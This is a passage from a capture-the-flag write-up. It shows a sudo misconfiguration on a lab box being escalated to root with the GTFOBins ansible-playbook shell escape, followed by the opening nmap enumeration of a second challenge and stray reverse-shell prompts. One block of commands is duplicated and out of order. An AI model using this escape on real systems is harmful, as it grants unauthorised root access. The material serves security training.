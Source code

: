 Then, I’ll check if we have any sudo rights

```bash
john@beautycare:~$ sudo -l
Matching Defaults entries for john on beautycare:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User john may run the following commands on beautycare:
    (root) NOPASSWD: /usr/bin/ansible-playbook
john@beautycare:~$
```

I just searched this binary in gtfobins and grabbed

```bash
TF=$(mktemp)
echo ’[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]’ >$TF
sudo /usr/bin/ansible-playbook $TF
```

> https://gtfobins.github.io/gtfobins/ansible-playbook/

```bash
TF=$(mktemp)
echo ’[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]’ >$TF
TF=$(mktemp)
john@beautycare:~$ sudo /usr/bin/ansible-playbook $TF
echo ’[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]’ >$TF
john@beautycare:~$ sudo /usr/bin/ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match ’all’
PLAY [localhost] **************************************************************
TASK [Gathering Facts] *********************************************************
ok: [localhost]
TASK [shell] *******************************************************************

# id

id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
STF22{3f62f62107c411482f5bc8caff1843e2}
```

And that’s it \\o/

## Electrogrid (Fullpwn, 2000 Points)

### Enumeration

We start with a simple `nmap` scan with the basic options

```bash
hcue@pjsk:/tmp » nmap -sC -sV 10.129.228.64 -v
9000/tcp open  cslistener?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LPDString, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Content-Type: application/json; charset=utf-8
|     Content-Length: 32
|     Date: Mon, 05 Dec 2022 09:45:20 GMT
|     Connection: close
|     {"message":"404 page not found"}
```

[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname